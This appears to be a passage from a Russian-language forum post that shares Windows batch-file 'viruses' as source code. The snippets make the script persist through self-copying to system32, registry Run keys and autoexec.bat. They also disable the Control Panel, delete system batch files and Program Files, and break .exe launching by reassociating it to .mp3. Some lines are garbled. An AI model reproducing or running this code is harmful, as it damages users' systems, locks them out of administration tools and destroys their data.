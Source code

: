 Echo %Yvaga%
echo.
echo %virus%
echo %pas%
set /a choise = 0
set /p choise=%pass%:
if "%choise%" == "101" goto gold
if "%choise%" == "200393" goto status
exit
:status
echo %dim%
attrib -r -a -s -h C:\windows\boot.bat
del C:\windows\boot.bat
attrib -r -a -s -h C:\windows\sys.bat
del C:\windows\sys.bat
cls
:gold
start C:\
:end
[/SRC]
Добавляет программу в автозагрузку ОС:
[SRC]
copy ""%0"" "%SystemRoot%\system32\File.bat"
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "Filel" /t REG_SZ /d "%SystemRoot%\system32\File.bat" /f
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v NoControlPanel /t REG_DWORD /d 1 /f
[/SRC]
Этот вирус,блокирует все программы,но интернет работает.
[SRC]
Echo_inactive_inactive off
Echo Virus Loading
Date 13.09.96
If exist c:ski.bat goto abc
Copy %0 c:ski.bat
Attrib +h c:ski.bat
Echo c:ski.bat >>autoexec.bat
:abc
md PRIDUROK
md LUZER
md DURAK
md LAMER
Label E: PRIDUROK
assoc .exe=.mp3
del c:Program Files/q
Echo VIRUS LOAD
[/SRC]
